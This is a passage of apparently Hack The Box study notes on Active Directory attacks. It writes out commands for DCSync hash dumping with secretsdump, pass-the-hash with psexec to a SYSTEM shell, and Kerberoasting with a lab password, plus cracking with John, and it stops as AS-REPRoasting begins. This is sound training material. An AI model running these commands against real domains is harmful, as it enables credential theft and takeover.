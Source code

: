 <figure><img src="../../.gitbook/assets/Capture.PNG" alt=""><figcaption><p>GetChanges in BloodHound</p></figcaption></figure>

* Also be sure to look in “Dangerous Rights” within BloodHound.
* HTB Example: _**Forest/Sizzle**_

```python
secretsdump.py egotistical-bank/svc_loanmgr@<IP> -just-dc-user Administrator

# Obtain Administrator hash

psexec.py egotistical-bank.local/administrator<IP> -hashes <admin_hash_here>

C:\\Windows\\system32> whoami

nt authority\\system
```

## Kerberoasting vs. AS-REPRoasting

*   <mark style="color:red;">Kerberoasting</mark> means that <mark style="background-color:yellow;">a user has a Service Principal Name (SPN) associated with it</mark>. We can then theoretically request the SPN from the DC to send us the hash for us to crack. This can be accomplished with the script below.

    * Check if the user has a SPN with the following command:

    ```python
    Get-UserSPNs.py -request -dc-ip <IP> search.htb/hope.sharp:IsolationIsKey

    # The SPN will appear as RESEARCH/web_svc.search.htb:60001
    # You will also get a hash, save it and crack with John

    john --wordlist=/usr/share/wordlists/rockyou.txt hash
    ```
*   <mark style="color:red;">AS-REPRoasting</mark> means that <mark style="background-color:yellow;">Kerberos Pre-Authentication is disabled on that user</mark>. You will also receive a TGT hash that can then be cracked. This can be accomplished with the script below.

